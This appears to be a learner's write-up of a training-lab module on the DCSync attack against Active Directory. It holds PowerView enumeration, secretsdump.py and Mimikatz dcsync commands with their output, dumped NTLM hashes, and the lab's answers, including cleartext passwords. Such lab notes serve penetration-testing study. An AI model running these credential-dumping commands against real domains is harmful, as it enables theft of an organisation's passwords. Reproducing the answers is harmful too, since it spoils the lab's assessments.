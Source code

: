 # DCSync

## What is DCSync

DCSync is a technique for stealing the Active Directory password database by using the built-in `Directory Replication Service Remote Protocol`, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set).

**Using Get-DomainUser to View adunn's Group Membership**

```powershell-session
PS C:\htb> Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl


samaccountname     : adunn
objectsid          : S-1-5-21-3842939050-3880317879-2865463114-1164
memberof           : {CN=VPN Users,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Shared Calendar
                     Read,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Printer Access,OU=Security
                     Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=File Share H Drive,OU=Security
                     Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL...}
useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
```

`objectsid : S-1-5-21-3842939050-3880317879-2865463114-1164`

**Using Get-ObjectAcl to Check adunn's Replication Rights**

```powershell-session
PS C:\htb> $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-498
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-516
ObjectAceType         : DS-Replication-Get-Changes-All

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes-In-Filtered-Set

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes-All
```

DCSync replication can be performed using tools such as Mimikatz, Invoke-DCSync, and Impacket’s secretsdump.py.

### **Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py**

```shell-session
secretsdump.py -outputfile dcsync_hashes -just-dc <user>:<password>@<ipaddress> 
secretsdump.py -outputfile dcsync_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```

* \-just-dc-ntlm -> only give NTLM hashes from NTDS file
  * creates 3 files 1 has NTLM hash 2 has kerberos keys 3 cleartext password from NTDS for accounts set with reversible encryption.
* \-just-dc-ntlm \<USERNAME> -> NTLM hash for specific user
* \-pwd-last-set -> see when each account's password was last chaged
* \-history -> dump password history
* \-user-status -> check if user is disabled

If reversible encryption is set, the passwords are stored using RC4 encrpytion and the key used to encrypt is stored in Syskey and can be extrated by Domain Admin. secretsdump.py wil decrypt password with this option enabled while dumping the NTDS file as Domain Admin or using DCSync

**Enumerating Further using Get-ADUser**

```powershell-session
PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

DistinguishedName  : CN=PROXYAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
Enabled            : True
GivenName          :
Name               : PROXYAGENT
ObjectClass        : user
ObjectGUID         : c72d37d9-e9ff-4e54-9afa-77775eaaf334
SamAccountName     : proxyagent
SID                : S-1-5-21-3842939050-3880317879-2865463114-5222
Surname            :
userAccountControl : 640
UserPrincipalName  :
```

We can see that one account, `proxyagent`, has the reversible encryption option set with PowerView as well:

**Checking for Reversible Encryption Option using Get-DomainUser**

```powershell-session
PS C:\htb> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol

samaccountname                         useraccountcontrol
--------------                         ------------------
proxyagent     ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
syncron        ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
```

**Displaying the Decrypted Password**

```shell-session
cat inlanefreight_hashes.ntds.cleartext 

proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
```

### **Performing the Attack with Mimikatz**

```powershell-session
PS C:\htb> .\mimikatz.exe

mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : administrator
User Principal Name  : administrator@inlanefreight.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 10/27/2021 6:49:32 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 88ad09182de639ccc6579eb0849751cf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4625fd0c31368ff4c255a3b876eaac3d
```

## Assessment

**Perform a DCSync attack and look for another user with the option "Store password using reversible encryption" set. Submit the username as your answer.**

```
PS C:\Tools\mimikatz\x64> Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl

DistinguishedName  : CN=PROXYAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
Enabled            : True
GivenName          :
Name               : PROXYAGENT
ObjectClass        : user
ObjectGUID         : c72d37d9-e9ff-4e54-9afa-77775eaaf334
SamAccountName     : proxyagent
SID                : S-1-5-21-3842939050-3880317879-2865463114-5222
Surname            :
userAccountControl : 640
UserPrincipalName  :

DistinguishedName  : CN=syncron,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
Enabled            : True
GivenName          :
Name               : syncron
ObjectClass        : user
ObjectGUID         : 36857917-0314-49a3-b09f-40415851ea6d
SamAccountName     : syncron
SID                : S-1-5-21-3842939050-3880317879-2865463114-5617
Surname            :
userAccountControl : 640
UserPrincipalName  :

```

**What is this user's cleartext password?**

ssh to linux machine to run secretsdump.py

```
secretsdump.py -just-dc INLANEFREIGHT/adunn:SyncMaster757@172.16.5.5 -outputfile inlanefreight_hashes
```

<figure><img src="../../../.gitbook/assets/image (46) (2).png" alt=""><figcaption><p>syncron:Mycleart3xtP@ss!</p></figcaption></figure>

**Perform a DCSync attack and submit the NTLM hash for the khartsfield user as your answer.**

<figure><img src="../../../.gitbook/assets/image (22) (1) (1).png" alt=""><figcaption><p>4bb3b317845f0954200a6b0acc9b9f9a</p></figcaption></figure>











